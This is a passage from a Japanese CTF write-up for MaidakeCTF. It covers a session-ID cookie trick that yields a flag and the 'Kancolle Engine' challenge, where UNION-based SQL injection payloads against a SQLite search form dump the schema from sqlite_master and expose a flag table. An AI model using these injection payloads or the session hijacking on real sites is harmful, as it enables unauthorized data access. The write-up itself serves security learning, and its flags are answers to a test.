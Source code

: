 PHP のセッション ID っぽい文字列です。Cookie の `PHPSESSID` にこれをセットしてリロードするとフラグが表示されました。

```
MaidakeCTF{Session_management_must_be_done_with_care}
```

### Kancolle Engine (400)
> 艦娘のMD5を検索できるサイトを作ってみました！
> 
> (URL)
> 
> ヒント: sqlite3を使用しています

与えられた URL にアクセスすると、次のような検索フォームが表示されました。

```html
	<section class="bs-docs-section clearfix">
		<div class="row">
			<div class="col-xl-12">
				<form method="post">
					<div class="form-group">
					<input type="text" class="form-control mb-2 w-75 mx-auto" name="name" placeholder="ex) 榛名" required />
					</div>
					<p class="text-center"><button type="submit" class="w-50 py-2 my-2" name="search">検索</button></p>
									</form>
			</div>
		</div>
	</section>
```

試しに `%` で検索してみると、以下のようなテーブルが表示されました。

|図鑑No.|艦名|艦種|次改造レベル|MD5|
|-------|---|---|-----------|---|
|001|長門|戦艦|30|a8529a1bdc2a7f517cffa2f0ed191d39|
|001b|長門改|戦艦|88|7383436fa5b81c024ad33f053f856b6c|
|︙|︙|︙|︙|︙|

恐らく `LIKE` 句にユーザ入力を突っ込んでいるのでしょう。SQLi ができると考えて `' and 0 union select 1,2,3,4,5,6,7,8,9,10,11;#` を入力してみると、以下のようなテーブルが表示されました。

|図鑑No.|艦名|艦種|次改造レベル|MD5|
|-------|---|---|-----------|---|
|1|3|4|5|11|

これを利用して存在しているテーブルの一覧を手に入れましょう。ヒントから SQLite が使われていることがわかっているので、`sqlite_master` テーブルの `sql` カラムを抽出します。`' and 0 union select sql,2,3,4,5,6,7,8,9,10,11 from sqlite_master;#` を入力すると、以下のようなテーブルが表示されました。

|図鑑No.|艦名|艦種|次改造レベル|MD5|
|-------|---|---|-----------|---|
|CREATE TABLE flag( this_is_flag )|3|4|5|11|
|CREATE TABLE ship( num TEXT, romaji TEXT, name TEXT, type TEXT, level TEXT, item TEXT, equipment1 TEXT, equipment2 TEXT, equipment3 TEXT, equipment4 TEXT, md5 TEXT )|3|4|5|11|
